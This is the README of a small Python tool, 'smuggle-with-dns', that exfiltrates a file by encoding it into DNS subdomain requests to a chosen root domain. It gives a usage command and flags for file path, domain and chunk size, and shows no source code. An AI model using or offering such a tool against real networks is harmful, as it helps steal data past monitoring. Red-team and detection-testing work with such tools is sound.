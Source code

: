 # smuggle-with-dns
exfiltrate file with dns (for now)


simple tool to exfiltrate file with dns


# Usage
```bash
python3 swd.py --file path_to_file --domain root_domain --buffer length_of_string
```

# Setup
- ``` -h => help menu  ```
- ```  --file => path of file  ```
- ```  --domain => root domain to send request  ``` 
- ```  --buffer => subdomain string size, default 16  ```
